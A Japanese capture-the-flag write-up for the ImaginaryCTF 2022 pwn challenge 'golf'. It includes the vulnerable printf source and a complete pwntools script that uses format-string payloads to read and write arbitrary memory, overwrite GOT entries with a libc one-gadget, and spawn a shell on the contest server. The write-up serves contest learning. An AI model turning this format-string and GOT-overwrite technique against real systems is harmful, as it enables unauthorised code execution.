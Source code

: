 ```yaml
---
layout: chall
ctf_name: imaginaryctf_2022
problem_name: golf
genre: pwn
solved_date: 2022-07-17
during_ctf: true
tag: [fsb]
fav: false
difficulty: normal
---
```


### 概要

`strlen` が 11 未満ならば、その文字列を用いて `printf` を呼ぶことができるバイナリがリモートで動いている。

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

<details><summary>元コード</summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

__attribute__((constructor))

_(){setvbuf /* well the eyes didn't work out */
(stdout,0,2
,0);setvbuf
(stdin,0,2,
0);setvbuf(
stderr,0,2,
0)       ;}

main( ){ char  /* sus */
aa[       256
];;       ;;;
fgets(aa,256,
stdin ) ; if(
strlen (aa) <
11)printf(aa)
; else ; exit
(00       );}

/* i tried :sob: */
```

</details>

<details><summary>整形済みコード</summary>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

__attribute__((constructor))

_() {
  setvbuf(stdout,0,2,0);
  setvbuf(stdin,0,2,0);
  setvbuf(stderr,0,2,0);
}

main() {
  char aa[256];
  fgets(aa,256,stdin); 
  if(strlen(aa) < 11)printf(aa);
  else;
  exit(00);
}

/* i tried :sob: */
```

</details>


### 解法
文字数制限が厳しいので、引数によって書き込む文字数を指定することにした。これで、AAR/AAW が可能となった。これを用いて、まずは `exit` の got を main に向けた。ここからはいろいろな手法で shell が取れるが、今回は one gadget を用いることとした。libc のバージョンが与えられていなかったので、まずは libc のバージョンを決定した。その後に `setvbuf` の got に one gadget を書き込み、`exit` の got を初期化処理に向けることで one gadget を発火させた。

<details><summary>スクリプト</summary>

```py
from pwn import *

BIN_NAME = 'golf'
REMOTE_ADDR = 'golf.chal.imaginaryctf.org'
REMOTE_PORT = 1337
LOCAL = False

chall = ELF(BIN_NAME)
context.binary = chall

if LOCAL: stream = process(BIN_NAME)
else: stream = remote(REMOTE_ADDR, REMOTE_PORT)

def aaw(addr, val):
  print(f'[+] aaw({addr=}, {val=})')
  payload = f'%*9$c%8$hn'.encode()
  assert len(payload) < 11
  payload = payload.ljust(16, b'\x00')
  payload += pack(addr)   # 8
  payload += pack(val)    # 9
  stream.sendline(payload)


def aar(addr):
  payload = f'#%8$s!!'.encode()
  assert len(payload) < 11
  payload = payload.ljust(16, b'\x00')
  payload += pack(addr)   # 8
  stream.sendline(payload)
  stream.recvuntil(b'#', drop=True)
  s = stream.recvuntil(b'!!', drop=True)
  return unpack(s, "all")

pause()
aaw(chall.got["exit"], chall.symbols["main"] & 0xffff)
printf_addr = aar(chall.got["printf"])
print(f'[+] {hex(printf_addr)=}')
setvbuf_addr = aar(chall.got["setvbuf"])
print(f'[+] {hex(setvbuf_addr)=}')

libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so')
libc.address = printf_addr - libc.symbols["printf"]
assert setvbuf_addr == libc.symbols["setvbuf"]

one_gadget = libc.address + [0xe3afe, 0xe3b01, 0xe3b04, 0xe3cf3, 0xe3cf6][1]

print(f'[+] {hex(one_gadget)=}')

addr = chall.got["setvbuf"]
print(f'[+] {hex(aar(chall.got["setvbuf"]))=}')
aaw(chall.got["setvbuf"] + 0, (one_gadget >> 0) & 0xffff)
print(f'[+] {hex(aar(chall.got["setvbuf"]))=}')
aaw(chall.got["setvbuf"] + 2, (one_gadget >> 16) & 0xffff)
print(f'[+] {hex(aar(chall.got["setvbuf"]))=}')
aaw(chall.got["setvbuf"] + 4, (one_gadget >> 32) & 0xffff)
print(f'[+] {hex(aar(chall.got["setvbuf"]))=}')

pause()
aaw(chall.got["exit"], (chall.symbols["_"] + 0x21) & 0xffff)

stream.interactive()
```

</details>


